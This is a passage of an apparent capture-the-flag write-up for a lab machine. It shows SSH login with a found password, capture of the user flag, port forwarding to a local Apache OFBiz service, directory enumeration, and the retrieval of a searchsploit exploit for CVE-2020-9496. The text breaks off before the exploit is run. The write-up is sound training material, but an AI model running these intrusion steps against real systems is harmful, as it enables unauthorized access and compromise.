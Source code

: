 <img width="876" height="205" alt="image" src="https://github.com/user-attachments/assets/38c6b9c9-08d5-4798-8bf6-891461f278e6" />

**Credentials Found:**
- Password: `VerticalEdge2020`

**SSH Access:**
```bash
ssh marcus@10.129.232.111
```

<img width="658" height="910" alt="image" src="https://github.com/user-attachments/assets/19ed872e-4996-482c-8d7e-9e650b18dfdc" />

**User Flag:**
```bash
cat /home/marcus/user.txt
# 5a8502ebdfc41a5843153cf73bcd702d
```

## Container Escape

### Service Discovery

```bash
netstat -tunlp
```

<img width="822" height="292" alt="image" src="https://github.com/user-attachments/assets/ac859fe4-eb81-4117-8161-897eec70f127" />

**Discovery:** OFBiz service running on localhost port 8443.

### SSH Port Forwarding

```bash
ssh -L 8443:127.0.0.1:8443 marcus@10.129.232.111
```

### OFBiz Enumeration

```bash
gobuster dir -u https://127.0.0.1:8443 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -k
```

<img width="965" height="499" alt="image" src="https://github.com/user-attachments/assets/9b6f272a-a1e1-45b3-bcd8-849c1bb7ec72" />

**Discovery:** Apache OFBiz 17.12.01 running at `/catalog`

### OFBiz Exploitation

OFBiz 17.12.01 is vulnerable to deserialization attacks (CVE-2020-9496).

```bash
searchsploit OFBiz 17.12.01
searchsploit -m 50178
```
